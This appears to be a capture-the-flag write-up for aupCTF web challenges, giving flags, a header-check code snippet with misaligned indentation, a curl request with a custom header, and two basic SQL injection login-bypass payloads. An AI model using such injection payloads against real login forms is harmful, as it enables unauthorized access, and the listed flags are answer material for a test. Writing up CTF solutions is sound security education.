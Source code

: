# aupCTF writeups for WEB 
ctftime link: https://ctftime.org/event/2025/
## Starter - 100pts

![image](https://github.com/zer00d4y/writeups/assets/128820441/698c00f7-7c4e-4f4a-a183-ae622a3a6003)
![image](https://github.com/zer00d4y/writeups/assets/128820441/e2a318b7-e144-4784-87bf-28a1d5378f6d)
![image](https://github.com/zer00d4y/writeups/assets/128820441/a557168e-f0a9-4f4a-b005-8c5ac01a67a2)

FLAG: `aupCTF{w45n't-th47-h4rd-r1gh7}`

## Header - 100pts

    def headar_easy(request):
        if request.META.get('HTTP_GETFLAG') == 'yes':
        context = {
            'flag': '[REDACTED]',
        }
        
        return render(request, 'aa/flag.html', context)
    
    return render(request, 'aa/index.html')

┌──(kali㉿kali)-[~]

└─$  `curl -H "GETFLAG: yes" https://challs.aupctf.live/header/`

aupCTF{cust0m-he4d3r-r3qu3st}

FLAG: `aupCTF{cust0m-he4d3r-r3qu3st}`

## SQLi - 1 - 100pts

Simple SQL-injection, we need use basic payload: `' OR 1=1 --` we are able to get in.

![image](https://github.com/zer00d4y/writeups/assets/128820441/ffc1ba72-d930-4319-9c9e-e7543f2a3e5f)

FLAG: `aupCTF{3a5y-sql-1nj3cti0n}`

## SQLi - 2 - 200pts

Also SQL injection, we need to use this payload `-- or '1'='1'`

FLAG: `aupCTF{m3d1um-sql-1nj3cti0n}`

